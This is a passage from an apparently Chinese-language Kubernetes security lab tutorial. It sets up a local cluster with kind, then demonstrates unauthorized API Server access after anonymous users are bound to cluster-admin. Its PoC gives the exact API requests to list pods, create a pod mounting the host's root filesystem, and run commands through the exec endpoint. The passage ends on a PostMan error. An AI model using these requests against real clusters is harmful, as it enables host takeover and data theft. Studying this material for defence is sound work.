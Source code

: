将其保存为 k8s.yml 文件

```bash
kind create cluster --config k8s.yaml
```

完成后，查看当前已经有的集群

```bash
kind get clusters
```

此时创建好的 K8S 集群还是 Master，如果想在 Master 节点上直接装 Pod，则需要去除污点才可以正常安装 Pod

```bash
kubectl taint nodes --all node-role.kubernetes.io/master-
```

如果想要删除某个集群可以使用

```bash
kind delete cluster --name k8s
```

### [0x02 配置不当引发的组件安全问题](#toc_0x02)

##### [API Server 未授权访问](#toc_api-server)

运维人员配置不当，将"system:anonymous"用户绑定到"cluster-admin"用户组，从而使 6443 端口允许匿名用户以管理员权限向集群内部下发指令

```bash
kubectl create clusterrolebinding system:anonymous --clusterrole=cluster-admin --user=system:anonymous
```

Poc:

```bash
#查看 pods,GET
https://192.168.249.129:26443/api/v1/namespaces/default/pods?limit=500

#创建特权容器，POST
https://192.168.249.129:26443/api/v1/namespaces/default/pods
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test-4444\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test-4444\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test-4444","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test-4444","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}

#执行命令，GET
https://192.168.249.129:26443/api/v1/namespaces/default/pods/test-4444/exec?stdout=1&stderr=1&tty=true&command=whoami
```

在用 PostMan 测试第三条执行命令的时候我出现了"Upgrade request required"(400)
